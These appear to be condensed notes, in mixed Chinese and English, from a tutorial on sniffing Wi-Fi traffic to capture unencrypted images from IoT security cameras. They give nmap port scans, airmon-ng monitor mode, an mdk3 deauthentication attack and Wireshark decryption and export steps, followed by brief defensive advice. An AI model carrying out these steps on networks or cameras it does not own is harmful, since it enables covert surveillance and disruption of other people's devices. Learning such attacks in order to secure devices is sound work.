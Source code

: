 ## Intercept Images from a Security Camera Using Wireshark

### IoT Devices & Administration Pages

### Ports 80 & 81 Are Insecure

- 在路由器，安全摄像头和其他支持 Wi-Fi 的物联网设备等设备上看到端口 80, 81, 8080 或 8081 开放时，这很可能意味着在该端口上托管了一个不安全的HTTP网站
- 虽然端口 443 用于安全 HTTPS 流量，它是加密的并且不会出现相同类型的拦截风险，但任何通过本地网络暴露不安全 HTTP 端口的连接设备都是有被入侵的风险。例如使用 [RouterSploit](https://null-byte.wonderhowto.com/how-to/seize-control-router-with-routersploit-0177774/) 这样的程序尝试入侵

### Intercepting Traffic with Wireshark

- 使用 Wireshark 来嗅探目标计算机和路由器之间的 Wi-Fi 流量，目标是在查看安全摄像头源时捕获流向目标计算机的未加密 HTTP 流量
- 将 Wi-Fi 密钥添加到 Wireshark，无需连接到网络就可以解密我们嗅探的数据，降低被发现的几率

### What You'll Need & Practical Limitations

1. Access the Web Camera on the Insecure Interface

   `sudo nmap -p 80,81,8080,8081 192.168.0.0/24`

2. Identify the Channel & Prepare Wireless Card

   `airmon-ng start wlan0`

   `airodump-ng wlan0mon`

   `airmon-ng start wlan0mon 11`

3. Start Wireshark

4. Add the Network Password to Decrypt Traffic

   “Edit”->“Preferences”->“Protocols”->“IEEE 802.11”->“Enable decryption”->”Edit”->“``wpa-pwd`; key: `password:networkname`”

5. Build a Filter to Capture Traffic Between Devices

   “Receiver address”->“Apply as Filter”->“Selected”

6. Deauth the Target to Grab a Handshake

   `mdk3 wlan0mon d -c 11`

   `airodump-ng wlan0mon -c 11`

7. Filter the Traffic to Find HTTP Traffic

   `http`

8. Decode, Export & View the Intercepted JPEGs

   “File”->“Export Objects”->“HTTP”->“Save”

### Defending Against the Attack

- 确保摄像头使用 HTTPS 传输，设置高强度密码
- 避免直接暴露在互联网上
- 禁用路由器上的 WPS 设置等其他安全功能的选项





[原文](https://null-byte.wonderhowto.com/how-to/intercept-images-from-security-camera-using-wireshark-0191735/#jump-step8)

---